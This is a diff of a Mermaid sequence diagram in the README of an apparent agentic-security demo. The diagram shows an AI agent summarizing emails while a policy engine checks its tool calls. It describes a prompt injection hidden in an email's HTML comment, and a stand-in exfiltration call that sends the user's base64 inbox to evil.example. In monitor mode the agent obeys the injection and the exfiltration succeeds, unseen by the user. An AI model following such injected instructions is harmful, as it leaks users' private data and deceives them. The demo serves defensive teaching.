

Before and after one commit to pbhusari/agentic-security-coffeeshop-demo: the third of 4 diagrams in README.md, drawn with Mermaid (forest theme). The commit also changed other lines of this file and 9 other files, not shown here.

First line of the commit message:
Rename canary → provenance token; carrier check now blocks; clean dashboard log

````diff
--- a/README.md
+++ b/README.md
@@ -121,30 +121,31 @@
 ```mermaid
 sequenceDiagram
     participant U as User
     participant A as Agent (PEP)
     participant P as PDP
     participant E as evil.example
 
     U->>A: "Summarize my unread emails"
-    A->>P: check read_email({})
+    A->>P: check read_email({email_id: 1..3}) + output
     P-->>A: allow
-    A->>P: check read_email({email_id: 4}) + output
-    Note over P: Check 2: flags HTML comment<br/>"compliance logging" + "do not mention"<br/>Output redacted before LLM sees it
-    P-->>A: flag · redacted output
 
     rect rgb(42, 13, 13)
         Note over A,E: ACTIVE MODE — enforcement on
-        A->>P: check http_get({url: evil.example/collect?data=...})
-        Note over P: Check 1: evil.example not in allowlist
+        A->>P: check read_email({email_id: 4}) + output
+        Note over P: Check 2: detects HTML comment<br/>"compliance logging" + "do not mention"<br/>check_prompt_carrier → block
         P-->>A: block
-        A-->>U: "I was prevented from completing an action by security policy"
+        A-->>U: "I was prevented from reading an email by security policy"
+        Note over A,U: LLM never sees the injection.<br/>http_get is never attempted.<br/>Dashboard shows 🔴 block.
     end
 
     rect rgb(42, 31, 0)
         Note over A,E: MONITOR MODE — log only
+        A->>P: check read_email({email_id: 4}) + output
+        P-->>A: allow (logged as would-block)
+        Note over A: LLM receives unredacted payload.<br/>Follows injected instruction.
         A->>P: check http_get({url: evil.example/collect?data=...})
         P-->>A: allow (logged as would-block)
         A->>E: GET evil.example/collect?data=<base64 inbox>
-        Note over E: Exfiltration succeeds.<br/>Dashboard turns red.<br/>User sees clean summary.
+        Note over E: Exfiltration succeeds.<br/>User sees clean summary.<br/>Dashboard shows audit trail.
     end
 ```
````
